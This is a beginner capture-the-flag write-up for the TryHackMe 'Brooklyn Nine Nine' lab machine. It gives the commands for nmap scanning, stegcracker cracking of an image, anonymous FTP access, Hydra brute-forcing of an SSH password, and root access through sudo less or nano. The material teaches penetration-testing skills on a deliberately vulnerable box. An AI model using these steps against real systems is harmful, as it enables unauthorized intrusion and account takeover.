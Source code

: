 
# Brooklyn Nine Nine CTF Writeup | Tryhackme

This is a **Brooklyn Nine Nine** themed CTF, designed for beginners. Let’s jump into it and check out this machine.



## Nmap Scan

Scanning the machine with Nmap:

```bash
nmap -sVC -p- IP
````

### Results

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.1.58
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

We have three interesting services:

* **Apache web server (80)**
* **Anonymous FTP (21)**
* **SSH (22)**

---

## Enumeration

### Port 80 - Web Server

* The website displays a **B99 banner**.
* Looking at the source code, we find an image: `brooklyn99.jpg`.

```bash
wget http://IP/brooklyn99.jpg
```

* The page hints at **steganography**.

We use `stegcracker` to analyze the image:

```bash
stegcracker brooklyn99.jpg ~/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
```

**Result:**

```
Successfully cracked file with password: admin
Your file has been written to: brooklyn99.jpg.out
```

```bash
cat brooklyn99.jpg.out
```

Output:

```
Holts Password:
fluffydog12@ninenine
```

So we have **credentials for SSH**.

---

### Port 21 - Anonymous FTP

Login using:

```bash
ftp IP
# username: anonymous
# password: anonymous
```

We find a file: `note_to_jake.txt`.

Contents:

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

---

### Port 22 - SSH

Using Holt’s credentials:

```bash
ssh holt@IP
# password: fluffydog12@ninenine
```

We get access to Holt’s account. Inside, we find:

* `user.txt` ✅ (user flag)
* `nano.save` (restricted to root)

Checking `/etc/passwd`, we discover two more potential users: **jake** & **amy**.

---

## Privilege Escalation

### Brute-forcing Jake’s Password

We try brute-forcing Jake’s SSH login:

```bash
hydra -l jake -P ~/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt ssh://IP
```

**Result:**

```
[22][ssh] host: IP   login: jake   password: 987654321
```

We can now login as Jake:

```bash
ssh jake@IP
# password: 987654321
```

### Sudo Privileges

Checking Jake’s privileges:

```bash
sudo -l
```

Jake has sudo access for `less`. Using this, we can read root’s flag:

```bash
sudo less /root/root.txt
```

Flag:

```
Here is the flag: xxxxxxxxxxxxxxxxxxxxxxxxxx
```

✅ **Root access achieved!**

---

## Alternate Method

* From Holt’s account, running `sudo -l` shows sudo access for `nano`.
* Escalation to root can also be done using **nano**.

---

## Conclusion

We successfully rooted the **Brooklyn Nine Nine CTF** box by:

1. Enumerating services with Nmap
2. Extracting Holt’s SSH credentials via steganography
3. Using Anonymous FTP to confirm Jake’s weak password
4. Brute-forcing Jake’s account with Hydra
5. Escalating privileges to root using `less` (or `nano`)

🎉 **Box pwned!**

```
```

